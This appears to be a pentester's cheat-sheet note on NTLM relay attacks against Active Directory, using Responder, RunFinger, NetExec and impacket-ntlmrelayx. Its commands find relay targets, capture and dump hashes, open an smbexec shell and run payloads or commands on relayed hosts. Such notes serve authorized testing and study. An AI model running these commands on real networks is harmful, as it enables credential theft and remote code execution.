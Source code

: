 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - SMB
  - AD
---
```

[https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)

Relay captures hashes to target machine for various types of access.
- Only works if SMB signing is disabled or "not required"
- Relayed creds MUST be admin on the machine


## Identifying Relay Targets
___
**Automated**

[RunFinger.py](https://github.com/lgandx/Responder/blob/master/tools/RunFinger.py) included with Responder can scan the network for potential relay targets for:

- SMB
- MSSQL
- RDP

```bash
python3 RunFinger.py -i 192.168.1.0/24
```

**NetExec** will automatically generate a list of targets with --gen-relay-list for:

- SMB

```
nxc smb 192.168.1.0/24 --gen-relay-list output.txt
```





## ntlmrelayx
___




## Responder + ntlmrelayx
---

Edit responder conf:
```bash
sudo nano /etc/responder/Responder.conf
SMB = On ---> Off
HTTP = on ---> Off
```
Make targets list
```bash
echo "<TargetIP>" > targets.txt
```
Run responder
```bash
sudo responder -I eth0 -wv
```
Start ntlmrelayx with any of these options

**Dump hashes**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
**Get semi-interactive smbexec bind shell** (`nc localhost 11000`)
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
**Execute payload**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```
**Execute Command**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'whoami'
```
Wait for auth attempt (or coerce auth attempt)
